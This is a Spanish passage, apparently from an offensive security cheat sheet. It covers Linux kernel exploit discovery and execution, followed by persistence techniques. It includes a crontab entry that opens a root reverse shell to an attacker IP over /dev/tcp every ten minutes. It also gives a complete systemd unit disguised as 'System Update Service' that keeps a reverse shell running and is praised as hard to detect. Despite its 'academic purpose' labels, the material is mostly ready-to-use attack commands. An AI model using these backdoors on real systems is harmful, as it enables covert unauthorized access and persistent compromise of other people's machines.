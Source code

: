 ### 4.3 Análisis de Vulnerabilidades del Kernel

#### Identificación de Versión del Kernel

| Técnica                      | Comando                              | Propósito Académico                              |
|------------------------------|--------------------------------------|--------------------------------------------------|
| Versión del kernel           | `uname -r` (y luego `searchsploit`)            | Información exacta para búsqueda de exploits    |
| Información detallada        | `cat /proc/version`                  | Versión completa con información de compilación |
| Release del sistema          | `cat /etc/issue`                     | Identificar distribución y versión              |

#### Búsqueda y Ejecución de Exploits

| Técnica                      | Comando                              | Propósito Académico                              |
|------------------------------|--------------------------------------|--------------------------------------------------|
| Búsqueda de exploits locales | `searchsploit linux kernel [versión]` | Correlación versión-vulnerabilidad              |
| Búsqueda por distribución    | `searchsploit ubuntu [versión]`      | Exploits específicos de distribución            |
| Compilación de exploit       | `gcc -o exploit exploit.c`           | Preparación de exploit compilado                 |
| Ejecución                    | `chmod +x exploit`<br/>`./exploit`   | Escalación via vulnerabilidades del kernel      |

### 4.4 Técnicas Avanzadas de Persistencia

#### Backdoors en Servicios del Sistema

| Técnica                      | Comando                              | Propósito Académico                              |
|------------------------------|--------------------------------------|--------------------------------------------------|
| Persistencia crontab         | `echo "*/10 * * * * /bin/bash -c 'bash -i >& /dev/tcp/[IP]/4444 0>&1'" >> /var/spool/cron/root` | Persistencia temporal automatizada |
| Servicio systemd             | Ver script completo en sección de código | Persistencia robusta integrada al sistema       |

**Script Completo para Servicio Systemd**:
```bash
cat > /etc/systemd/system/system-update.service << EOF
[Unit]
Description=System Update Service
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/[IP_atacante]/4444 0>&1'
Restart=always
RestartSec=60
User=root

[Install]
WantedBy=multi-user.target
EOF
systemctl enable system-update.service
systemctl start system-update.service
# PROPÓSITO: Persistencia robusta integrada al sistema
# VENTAJA: Reinicio automático, difícil detección
```
